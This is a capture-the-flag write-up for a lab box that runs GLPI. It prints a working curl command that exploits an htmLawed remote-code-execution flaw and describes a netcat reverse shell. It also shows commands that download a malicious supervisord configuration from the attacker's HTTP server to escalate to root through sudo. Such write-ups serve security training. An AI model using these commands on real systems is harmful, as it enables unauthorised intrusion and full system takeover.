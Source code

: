 ```yaml
---
title: Flawed @ brCTF
author: McSam
date: 2024-12-26 11:33:00 +0800
categories:
- Blogging
- brCTF
tags: 
- writeups
math: true
mermaid: true
image:
  src: ![image](https://user-images.githubusercontent.com/67085453/143765869-f4b70e8d-17d3-4e92-9311-e28dd167b4c9.png)
  width: 800
  height: 500
---
```


## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on our target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-default-creds.png "a title")

### Exploitation
We now attempt to login to GLPI and viola!!<br>
From there we move on with our recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find available exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

**CURL Command to exploit the vulnerability** <br>
```curl -s -d 'sid=foo&hhook=exec&text=[command]' -b 'sid=foo' http://[target-ip]/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```

Replace [command] and [target] with the command you  want to execute on the target and the IP address of the target respectfully.

We modify the exploit to get a reverse shell on our netcat listener.<br>
Firstly, we must make sure we are listening for incoming connections. <br>
![netcat listening](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-netcat-listener.png "a title")

Secondly, we prepare our exploit code to obtain a reverse shell.<br>
![preparing payload](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/modify-exploit.png "a title")

We execute the command and boom!! we get a connection on our listener. <br>
![conn reccv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/nc-connection-received.png "a title")

## Post Exploitation
As usual we need to stabilize our shell and the steps are as follows:<br>
#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

Let's continue from when we left off. Let's check the sudo privileges the `ETSCTF` user has on the box.
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/check-sudo-privs.png "a title")

Hmmmm, interesting..... Can we abuse this? <br>
After doing some research we find out that: <br>
Supervisord is a `process control system` for Unix-like operating systems. It allows you to manage and monitor multiple processes, ensuring that they run continuously and `automatically restarting` them if they fail. Supervisord is often used to manage services, daemons, and other long-running processes.

Supervisord can run commands in it's configuration file. Now you get the hint from here? So what we'll have to do is to craft a configuration file for supervisord which contains commands to execute.<br>
We will take advantage of this to spawn a shell.<br>
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/spawn-nc-shell-priv.png "a title")

Before anything else let's start our listener<br>
![other nc listener](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/other-nc-listener.png "a title")

Now we have to transfer our malicious configuration to the target. To make that possible we must start our local python http server in the directory containing our malicious configuration. <br>
`python3 -m http.server 8000` <br>
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-python-http-server.png "a title")

Downloading the malicious configuration from our python http server.<br>
NB: make sure you have write privileges to the current directory you are in. You can use the `/tmp` since it has very loose permissions.<br>
`wget http://<server.ip>:<port>/test.conf`
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/downloading-mal-conf-file.png "a title")

Right after downloading the file we transfer it the the `/var/tmp` directory. This is necessary because it is the only folder that we can execute configuration files from.<br>
![copy to var-tmp](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/copy-payload-to-tmp.png "a title")

Now we can run our command with sudo to gain root privileges.<br>
![run pe vector](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/run-pe-vector.png "a title")

Viola!! we are root. :smiley: <br>
![i am root](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/iamroot_and_got_conn.png "a title")